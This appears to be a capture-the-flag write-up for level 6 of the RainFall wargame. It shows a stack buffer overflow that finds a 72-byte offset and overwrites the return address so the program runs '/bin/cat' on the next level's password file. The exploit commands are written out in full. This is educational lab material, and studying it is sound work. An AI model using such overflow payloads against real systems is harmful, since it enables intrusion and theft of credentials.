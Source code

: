 # level 6

In this level we have to overwrite the return address of the function `strcpy` in the `main` function with the address of the function `n` to read the password of the next level.

For more explanation about the assembly code of the program, see the [gdb writeup](gdbwriteup.md).

First, we will need to find the buffer size of the strcpy function. We can do this by running the program with gdb and setting a breakpoint at the strcpy function. Then we will run the program until the breakpoint is reached and check the value of the stack pointer.

```sh
level6@RainFall:~$ ./level6 $(python -c "print('a' * 71)")
Nope
level6@RainFall:~$ ./level6 $(python -c "print('a' * 72)")
Segmentation fault (core dumped)
```

We can assume that the buffer size is 72 bytes.

After them, we will enter the address of the function `n` to execute the system function with the string "/bin/cat /home/user/level7/.pass" as argument.

```sh
level6@RainFall:~$ ./level6 $(python -c "print('a' * 72 + '\x54\x84\x04\x08')")
```